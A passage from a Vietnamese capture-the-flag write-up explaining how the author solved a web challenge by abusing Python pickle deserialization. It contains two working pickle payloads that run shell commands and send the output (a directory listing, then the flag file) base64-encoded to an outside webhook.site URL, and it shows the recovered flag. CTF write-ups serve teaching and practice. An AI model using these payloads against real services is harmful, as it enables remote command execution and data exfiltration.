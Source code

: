 Sau đó mình cacth được một cái request nhưng chỉ có file app.py. 

![image](https://hackmd.io/_uploads/rJxUwQ1c1e.png)

Sau một hồi debug thì mình nhìn ra vấn đề có liên quan đến kí tự newline nên mình chơi encode base64 luôn

```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'FLAG=$(curl https://webhook.site/642fc66c-f78b-40b5-9795-648e101b262d/?c=`ls | base64`)'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```

Ok lần này thì mình đã list ra được tất cả file trong thư mục 

![image](https://hackmd.io/_uploads/ByQAvQyc1g.png)

![image](https://hackmd.io/_uploads/HkKyOm19ke.png)

Thử trên challenge thì mình list được thư mục của server luôn and yeah có một file FLAG kìa

![image](https://hackmd.io/_uploads/Hk6buXycyx.png)

![image](https://hackmd.io/_uploads/BJamdmy9yx.png)

Tới đây thì mình chỉ cần đọc file FLAG đó là xong 

```python
import base64 
import pickle
import os

payload = b"cos\nsystem\nS'FLAG=$(curl https://webhook.site/642fc66c-f78b-40b5-9795-648e101b262d/?c=`cat FLAG | base64`)'\n\x85R."
print(pickle.loads(payload))
print(base64.b64encode(payload))
```

Sau khi chạy trên thì mình lấy được flag bằng lệnh cat

![image](https://hackmd.io/_uploads/B1lPdmk51x.png)

![image](https://hackmd.io/_uploads/B1O_uXy9Jg.png)

`Flag: E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}`

## Route (53)²

Updating...